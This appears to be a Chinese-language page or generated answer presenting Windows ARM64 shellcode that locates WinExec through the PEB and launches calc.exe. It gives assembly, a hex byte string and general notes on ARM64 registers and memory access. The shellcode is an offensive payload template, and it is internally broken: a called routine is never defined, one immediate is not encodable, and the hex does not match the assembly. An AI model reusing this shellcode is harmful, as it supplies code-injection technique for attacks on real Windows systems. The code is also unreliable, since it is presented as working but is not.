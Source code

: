这里展示一个 Windows ARM64 架构下执行 calc.exe 的 shellcode：

```nasm
; Windows ARM64 shellcode - 执行 calc.exe
; 使用 ARM64 汇编语法

start:
    ; 清零寄存器
    mov x0, #0                  ; 清零 x0
    mov x1, #0                  ; 清零 x1
    
    ; 构建calc.exe字符串
    adr x0, calc_str           ; 加载字符串地址
    mov x1, #5                 ; SW_SHOW = 5
    
    ; 获取PEB和kernel32基址
    mrs x8, TPIDR_EL0         ; 获取线程信息块
    ldr x8, [x8, #0x30]       ; 获取PEB
    ldr x8, [x8, #0x18]       ; PEB->Ldr
    ldr x8, [x8, #0x20]       ; InMemoryOrderModuleList
    ldr x8, [x8]              ; 跳过ntdll.dll
    ldr x8, [x8]              ; 获取kernel32.dll
    ldr x8, [x8, #0x20]       ; 保存基址
    
    ; 查找WinExec
    mov x2, #0xEC0E4E8E       ; WinExec函数散列
    bl get_proc               ; 获取函数地址
    
    ; 调用WinExec
    blr x0                    ; 执行WinExec
    
    ; 退出
    ret

calc_str:
    .ascii "calc.exe"
    .byte 0
```

对应的十六进制shellcode：
```
\xE0\x03\x00\xAA\xE1\x03\x00\xAA\x00\x00\x3F\xD6\xE8\x03\x00\x91
\xE1\x0F\x00\xB9\x08\xD0\x3B\xD5\x08\x71\x40\xF9\x08\xC1\x40\xF9
\x08\x01\x40\xF9\x08\x01\x40\xF9\x08\x01\x40\xF9\x08\x01\x40\xF9
\x42\x1C\x80\xD2\x00\x01\x3F\xD6\x20\x00\x3F\xD6\xC0\x03\x5F\xD6
\x63\x61\x6C\x63\x2E\x65\x78\x65\x00
```

主要特点和注意事项：

1. 寄存器使用：
- x0-x7：参数传递寄存器
- x8：间接寄存器
- x16-x17：临时寄存器
- x29：帧指针
- x30：链接寄存器

2. ARM64 特有的设计：
- 使用 mrs 指令访问系统寄存器
- 使用 adr 进行相对寻址
- blr 用于间接函数调用

3. 内存访问特点：
- 必须对齐的内存访问
- 使用 ldr/str 指令加载存储
- PEB访问方式不同

4. 关键差异：
- 指令集完全不同于x86/x64
- 寄存器数量更多
- 内存访问限制更严格
- 系统调用方式独特

5. 额外考虑：
- ARM64的分支预测行为
- 缓存一致性要求
- 不同的异常处理机制
- 寄存器保存规则

使用注意：
1. 需要在ARM64 Windows系统上测试
2. 注意内存对齐要求
3. 考虑ARM特有的保护机制
4. 代码必须是位置无关的

这个shellcode相比x86/x64版本：
- 指令更规整
- 寄存器使用更灵活
- 需要考虑更多架构特性
- 整体结构有较大差异